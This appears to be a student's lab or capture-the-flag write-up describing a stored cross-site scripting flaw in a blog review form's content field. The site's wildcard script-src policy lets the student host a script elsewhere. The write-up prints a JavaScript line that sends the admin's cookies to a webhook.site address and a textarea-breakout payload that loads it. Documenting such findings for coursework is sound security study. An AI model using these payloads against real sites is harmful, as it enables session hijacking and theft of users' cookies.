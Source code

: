 # ist193587

## Vulnerabilty

Cross-site scripting.

## Where

On the add a new blogpost for review especifically in content area

## Impact

Allows the user to execute script commands on the admin's browser in this case to get the cookies

## Steps to Reproduce

1. First thing i did was look into `script-src *` to see what this does and find out that the website has a flaw, it's able to read from any website that it is given.
2. With this in mind i figured that using `sigma` was the easiest way to have a website with javascript code in it. So after login in i created a javascript file in the web directory named `readMyLips.js` , with this content `window.location.replace("https://webhook.site/<random_identifier_you_were_given>?cookie="+document.cookie)` . Getting a website that had only the javascript in it `https://web.tecnico.ulisboa.pt/<istxxxxxx>/readMyLips.js` . 
3. Having this we insert in the Content textbox this payload `Content </textarea> <script src="https://web.tecnico.ulisboa.pt/<istxxxxxx>/readMyLips.js"> </script>` . This way we can get the admin cookies.

